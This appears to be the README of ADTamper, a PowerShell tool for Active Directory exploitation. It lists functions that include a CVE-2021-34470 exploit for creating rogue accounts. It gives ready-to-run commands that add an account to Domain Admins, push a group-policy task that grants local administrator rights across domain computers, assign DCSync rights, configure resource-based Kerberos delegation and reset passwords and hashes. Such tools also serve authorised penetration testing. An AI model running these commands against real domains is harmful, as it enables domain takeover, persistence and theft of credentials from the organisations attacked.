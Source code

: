 # ADTamper

ADTamper is a PowerShell tool for Active Directory exploitation.

## Functions

```
New-UserAccount                 -   creates a new user account in a given Active Directory domain
New-ComputerAccount             -   creates a new computer account in a given Active Directory domain
New-RogueAccount                -   creates a new Active Directory account (user or computer) by exploiting CVE-2021-34470
New-DomainDnsRecord             -   creates a new DNS record in a given Active Directory domain
New-GPImmediateTask             -   creates an immediate scheduled task to push out through a given Active Directory group policy
Add-GPGroupMember               -   adds a domain account to a local group through a given Active Directory group policy
Add-GPUserRightsAssignment      -   adds user rights to a domain account through a given Active Directory group policy
Set-UserPassword                -   modifies the password of a given Active Directory account
Set-UserNTHash                  -   modifies the password hash of a given Active Directory account
Set-KerberosDelegation          -   adds or removes a Kerberos delegation for a given Active Directory account
Set-LdapObject                  -   modifies properties for a given Active Directory object (e.g. members of a group)
Set-LdapObjectOwner             -   modifies the owner for a given Active Directory object
Set-LdapObjectAcl               -   adds or removes an ACL for a given Active Directory object
Remove-LdapObject               -   removes a given Active Directory object
```

## Examples

* Create a domain computer account:

```
New-ComputerAccount -SamAccountName 'testcomputer$' -Password 'P@ssw0rd'
```

* Reset the password of a domain account:

```
Set-UserPassword -SamAccountName 'testcomputer$' -NewPassword 'Str0ngP@ssw0rd' -Reset
```

* Add a DNS record to an Active Directory-Integrated DNS (ADIDNS) zone:

```
New-DomainDnsRecord -RecordType A -Name 'testcomputer' -ZoneName 'adatum.corp' -Data '192.168.1.200'
```

* Configure a Kerberos Resource-Based Delegation for a domain account that is going to be allowed to delegate authentication on an targeted system:

```
Set-KerberosDelegation -SamAccountName 'testcomputer$' -RBCD -TargetDN 'CN=WS10,CN=Computers,DC=ADATUM,DC=CORP' -Operation Add
```

* Add a domain account to an existing domain group:

```
Set-LdapObject -DistinguishedName 'CN=Domain Admins,CN=Users,DC=ADATUM,DC=CORP' -Properties @{member='CN=testcomputer,CN=Computers,DC=ADATUM,DC=CORP'} -Operation Add
```

* Add a domain account to the Administrators local group of domain computers:

```
$id = (Get-LdapObject -Filter "(&(objectCategory=groupPolicyContainer)(DisplayName=Default Domain Policy))" -Properties cn).cn
New-GPImmediateTask -PolicyId $id -Command 'cmd.exe' -CommandArguments '/c net localgroup Administrators testcomputer$ /add' -Scope Computer
```

* Assign 'DCSync' extended rights to a domain account:

```
$sid = (New-Object Security.Principal.SecurityIdentifier (Get-LdapObject -Filter '(sAMAccountName=testcomputer$)').objectSid,0).Value
Set-LdapObjectAcl -DistinguishedName "DC=ADATUM,DC=CORP" -PrincipalSID $sid -Rights DCSync -Operation Add
```

* Delete a domain account:

```
Remove-LdapObject -DistinguishedName 'CN=testcomputer,CN=Computers,DC=ADATUM,DC=CORP'
```
